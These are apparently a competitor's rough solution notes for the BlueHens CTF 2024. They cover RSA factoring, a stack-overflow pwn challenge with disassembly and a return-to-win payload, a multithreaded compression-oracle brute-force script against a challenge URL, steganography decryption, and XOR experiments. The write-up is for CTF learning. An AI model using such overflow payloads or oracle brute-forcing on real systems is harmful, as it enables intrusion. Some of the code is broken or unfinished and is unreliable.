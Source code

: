 = 2024年11月09日

== BlueHens CTF 2024

=== Training Problem: Intro to RSA 
----
In [9]: p = getPrime(128)
In [10]: q = getPrime(128)
In [11]: N = p*q
In [12]: bytes_to_long(flag) < N
Out[12]: True
In [13]: print(pow(bytes_to_long(flag), 65537, N), N)
9015202564552492364962954854291908723653545972440223723318311631007329746475 51328431690246050000196200646927542588629192646276628974445855970986472407007
----


[,python]
----

from sympy import factorint
from Crypto.Util.number import getPrime, bytes_to_long, long_to_bytes, inverse

# p = getPrime(128)
# q = getPrime(128)
# N = p * q
# # flag = b'hej'  # Replace this with your actual flag
# flag = b'some_flag_here'  # Replace this with your actual flag
# if bytes_to_long(flag) < N:
#     message = bytes_to_long(flag)
#     e = 65537
#     ciphertext = pow(message,e,N)
#     print("message:",message,long_to_bytes(message))
#     print("N:", N)
#     print("ciphertext:", message)

    # d = pow(e, -1, N)
    # print("d:", d)
    # m = pow(M, d, N)
    # print("m:", m)
    # print(long_to_bytes(m))


    # factors = factorint(N, limit=1000000)  # Set a limit on the number of primes to try
    # if len(factors) == 2:
    #     p, q = factors.keys()
    #     print("Factors of N:", p, q)
    # phi = (p-1)*(q-1)
    # d = inverse(e, phi)
    #
    # plaintext = pow(ciphertext, d, N)
    # print(long_to_bytes(plaintext).decode())


cipher = 9015202564552492364962954854291908723653545972440223723318311631007329746475
N = 51328431690246050000196200646927542588629192646276628974445855970986472407007
e = 65537

factors = factorint(N)  # Set a limit on the number of primes to try
if len(factors) == 2:
    p, q = factors.keys()
    print("Factors of N:", p, q)
    phi = (p-1)*(q-1)
    d = inverse(e, phi)

    plaintext = pow(ciphertext, d, N)
    print(long_to_bytes(plaintext))
    # p, q = 186574907923363749257839451561965615541, 275108975057510790219027682719040831427
    print("Factors of N:", p, q)
    phi = (p-1)*(q-1)
    d = pow(e, -1, phi)

    plaintext = pow(cipher, d, N)
    print(long_to_bytes(plaintext))
----


=== Training Problem: Intro to PWN 

``nc 0.cloud.chals.io 13545``

----
0000000000401196 <win>:
  401196:	f3 0f 1e fa          	endbr64
  40119a:	55                   	push   %rbp
  40119b:	48 89 e5             	mov    %rsp,%rbp
  40119e:	48 8d 05 5f 0e 00 00 	lea    0xe5f(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  4011a5:	48 89 c7             	mov    %rax,%rdi
  4011a8:	e8 d3 fe ff ff       	call   401080 <system@plt>
  4011ad:	90                   	nop
  4011ae:	5d                   	pop    %rbp
  4011af:	c3                   	ret

00000000004011b0 <vuln>:
  4011b0:	f3 0f 1e fa          	endbr64
  4011b4:	55                   	push   %rbp
  4011b5:	48 89 e5             	mov    %rsp,%rbp
  4011b8:	48 83 ec 30          	sub    $0x30,%rsp
  4011bc:	48 8d 05 49 0e 00 00 	lea    0xe49(%rip),%rax        # 40200c <_IO_stdin_used+0xc>
  4011c3:	48 89 c7             	mov    %rax,%rdi
  4011c6:	e8 a5 fe ff ff       	call   401070 <puts@plt>
  4011cb:	48 8d 45 d0          	lea    -0x30(%rbp),%rax
  4011cf:	48 89 c7             	mov    %rax,%rdi
  4011d2:	b8 00 00 00 00       	mov    $0x0,%eax
  4011d7:	e8 b4 fe ff ff       	call   401090 <gets@plt>
  4011dc:	90                   	nop
  4011dd:	c9                   	leave
  4011de:	c3                   	ret

00000000004011df <main>:
  4011df:	f3 0f 1e fa          	endbr64
  4011e3:	55                   	push   %rbp
  4011e4:	48 89 e5             	mov    %rsp,%rbp
  4011e7:	48 8b 05 82 2e 00 00 	mov    0x2e82(%rip),%rax        # 404070 <stdin@GLIBC_2.2.5>
  4011ee:	b9 01 00 00 00       	mov    $0x1,%ecx
  4011f3:	ba 02 00 00 00       	mov    $0x2,%edx
  4011f8:	be 00 00 00 00       	mov    $0x0,%esi
  4011fd:	48 89 c7             	mov    %rax,%rdi
  401200:	e8 9b fe ff ff       	call   4010a0 <setvbuf@plt>
  401205:	48 8b 05 54 2e 00 00 	mov    0x2e54(%rip),%rax        # 404060 <stdout@GLIBC_2.2.5>
  40120c:	b9 01 00 00 00       	mov    $0x1,%ecx
  401211:	ba 02 00 00 00       	mov    $0x2,%edx
  401216:	be 00 00 00 00       	mov    $0x0,%esi
  40121b:	48 89 c7             	mov    %rax,%rdi
  40121e:	e8 7d fe ff ff       	call   4010a0 <setvbuf@plt>
  401223:	48 8b 05 56 2e 00 00 	mov    0x2e56(%rip),%rax        # 404080 <stderr@GLIBC_2.2.5>
  40122a:	b9 01 00 00 00       	mov    $0x1,%ecx
  40122f:	ba 02 00 00 00       	mov    $0x2,%edx
  401234:	be 00 00 00 00       	mov    $0x0,%esi
  401239:	48 89 c7             	mov    %rax,%rdi
  40123c:	e8 5f fe ff ff       	call   4010a0 <setvbuf@plt>
  401241:	b8 00 00 00 00       	mov    $0x0,%eax
  401246:	e8 65 ff ff ff       	call   4011b0 <vuln>
  40124b:	b8 00 00 00 00       	mov    $0x0,%eax
  401250:	5d                   	pop    %rbp
  401251:	c3                   	ret
----


\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x90\x90\x90\x90\x90\x90\x90\x90\x96\x11\x40\x00

401196

\x96\x11\x40\x00

===  Just a day at the breach 

https://55nlig2es7hyrhvzcxzboyp4xe0nzjrc.lambda-url.us-east-1.on.aws/?payload=00[]


payload is in hex, goal is to check if you can guess the string.
67 is the length if the flag is found


[, python]
----
import string

CHARACTERS = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_{}"
----

.python code
[, python]
----
import requests
import zlib
from concurrent.futures import ThreadPoolExecutor, as_completed
import threading
import string

CHARACTERS = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_{}"
DOMAIN = "https://55nlig2es7hyrhvzcxzboyp4xe0nzjrc.lambda-url.us-east-1.on.aws"

# format: udctf{XXXX}
print("udctf{".encode().hex())

def sniff(hex_string: str) -> int:
    data = {"payload": hex_string.encode().hex()}
    response = requests.get(DOMAIN, params=data)
    if response.status_code != 200:
        return -1
    compressed_length = response.json()['sniffed']
    return compressed_length


num_threads = 50
lock = threading.Lock()

global found_flag
found_flag = "udctf{"

# with ThreadPoolExecutor(max_workers=num_threads) as executor:
#     future_to_char = {executor.submit(sniff, char): char for char in CHARACTERS}
#     
#     for future in as_completed(future_to_char):
#         char = future_to_char[future]
#         try:
#             result = future.result()
#             print(result, char, char.encode().hex())
#         except Exception as e:
#             print(f"Error with character {char}: {e}")

# def bruteforce():
#     global found_flag
#     for char in CHARACTERS:
#         result = sniff(f"{found_flag}{char}")
#         if result == 67:
#             found_flag += char
#             print(found_flag)
#             bruteforce()

found_flag="udctf{huffm4n_"
def attempt_char(char):
    global found_flag
    with lock:  # Lock to ensure thread-safe access to found_flag
        candidate = f"{found_flag}{char}"
    result = sniff(candidate)
    if result == 67:
        with lock:
            found_flag += char
            print(f"Current flag: {found_flag}")
        # Return True if this character was correct
        return True
    return False

def bruteforce():
    global found_flag
    with ThreadPoolExecutor(max_workers=5) as executor:
        while True:
            # Submit a task for each character in CHARACTERS
            futures = {executor.submit(attempt_char, char): char for char in CHARACTERS}
            found = False
            for future in futures:
                if future.result():
                    found = True  # A correct character was found
                    break
            if not found:  # If no correct character is found, break the loop
                print("No further characters matched.")
                break

bruteforce()

#Current flag: udctf{huffm4n_br34ched_l3t5_go}
----


=== Whispers of the Feathered Messenger

Check EXIF.

----
Comment 	UGFzc3dvcmQ6IDVCNEA3cTchckVc
----

or just

.$ file bird.jpeg 
----
bird.jpeg: JPEG image data, JFIF standard 1.01, aspect ratio, density 72x72, segment length 16, comment: "UGFzc3dvcmQ6IDVCNEA3cTchckVc", baseline, precision 8, 1080x1350, components 3
----

.$ echo 'UGFzc3dvcmQ6IDVCNEA3cTchckVc' | base64 -d
----
Password: 5B4@7q7!rE\
----

----
$ steghide extract -sf bird.jpeg
Enter passphrase: 5B4@7q7!rE\
----

no idea why, i don't know how to identify what kind of cipher was being used.
seems like **Salted__** was the hint for it

.solution
----
$ openssl enc -d -aes-256-cbc -in encrypted_flag.bin -out decrypted_flag.bin -pass pass:"5B4@7q7!rE\\"
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
$ l decrypted_flag.bin 
.rw-r--r-- birb users 43 B Sat Nov  9 15:07:27 2024  decrypted_flag.bin
$ cat decrypted_flag.bin 
UDCTF{m0AybE_YoR3$!_a_f0recnicsEs_3xpEr^t}
----


=== XS9: ROX LOOHCS 

[, python]
----
def xor(message: bytes, key: bytes) -> bytes:
    xored = b''
    for i in range(min(len(message), len(key))):
        xor = message[i] ^ key[i]
        xored += xor.to_bytes(1, byteorder='big')
    return xored


def crack_palindrome(cipher: bytes) -> bytes:
    message = b''


    loop_limit = (len(cipher) // 2) + (len(cipher) & 1)
    for i in range(loop_limit):
        M_0 = cipher[i]
        M_n = cipher[len(cipher)-1-i]
        for j in range(0, 128):
            result = M_0 ^ j
            if result == M_n:
                message += result.to_bytes(1, byteorder='big')
                continue

def xor_table(data: bytes, bits: int = 8):
    
    pass


flagmsg = "udctf{hello_wolrd}"
# print(xor(flagmsg, flagmsg[::-1]).hex())
#051c1b7f4652001b3008525d1b7f135c32160015453001551a7f0d1707167f1d1c4e0209011144134c5b005b4c1344110109024e1c1d7f1607170d7f1a55013045150016325c137f1b5d5208301b0052467f1b1c05



# first = xor(flagmsg, flagmsg[::-1]).hex()
# print(first)


# flagmsg = "051c1b7f4652001b3008525d1b7f135c32160015453001551a7f0d1707167f1d1c4e0209011144134c5b005b4c1344110109024e1c1d7f1607170d7f1a55013045150016325c137f1b5d5208301b0052467f1b1c05"
better1 = xor(flagmsg.encode(), flagmsg[::-1].encode())
# print(better1.hex())
decode = xor(better1, "udctf{"[::-1].encode())
# print(decode)


# print(crack_palindrome(better1))

message = b'\x09\x0A\x0B\x0C'
message = b'\xff\x00\x69\x11'
cipher = xor(message, message[::-1])
print(cipher.hex())
key = b'\x11\x69\x0d\x10'
decode = xor(cipher, key)
print(decode.hex(), xor(key, key[::-1]).hex())
----


